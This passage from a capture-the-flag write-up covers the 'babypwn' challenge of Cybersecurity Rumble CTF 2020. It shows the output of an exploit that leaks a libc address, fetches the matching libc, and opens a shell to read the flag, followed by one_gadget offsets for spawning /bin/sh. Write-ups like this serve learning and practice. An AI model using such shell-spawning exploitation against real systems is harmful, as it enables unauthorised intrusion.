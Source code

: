 The candidate libc is used to complete the second pass and get a shell,
however if this fails, the next libc candidate will be tested.

If all libc candidates are exhausted, then this will just error out.  It's
most likely not an issue with libc but exploit code.

Output:

```bash  
# ./exploit3.py  
[*] '/pwd/datajerk/cybersecurityrumblectf2020/babypwn/babypwn'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX disabled  
   PIE:      PIE enabled  
   RWX:      Has RWX segments  
[+] Opening connection to chal.cybersecurityrumble.de on port 1990: Done  
[*] Loaded 23 cached gadgets for './babypwn'  
[*] puts: 0x7ffff7af25a0  
[*] libc_url: https://libc.rip/download/libc6_2.31-0ubuntu9_amd64.so  
[*] getting: https://libc.rip/download/libc6_2.31-0ubuntu9_amd64.so  
[*]
'/pwd/datajerk/cybersecurityrumblectf2020/babypwn/libc6_2.31-0ubuntu9_amd64.so'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[*] libc.address: 0x7ffff7a6b000  
[*] Switching to interactive mode  
$ id  
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)  
$ cat flag.txt  
CSR{back-in-1990-life-must-have-been-easier}  
```

### one_gadget

Well, since we know the version of libc and it's address, we might as well see
if `one_gadget` will work:

```bash  
# one_gadget libc6_2.31-0ubuntu9_amd64.so  
0xe6ce3 execve("/bin/sh", r10, r12)  
constraints:  
 [r10] == NULL || r10 == NULL  
 [r12] == NULL || r12 == NULL

0xe6ce6 execve("/bin/sh", r10, rdx)  
constraints:  
 [r10] == NULL || r10 == NULL  
 [rdx] == NULL || rdx == NULL

0xe6ce9 execve("/bin/sh", rsi, rdx)  
constraints:  
 [rsi] == NULL || rsi == NULL  
 [rdx] == NULL || rdx == NULL  
```
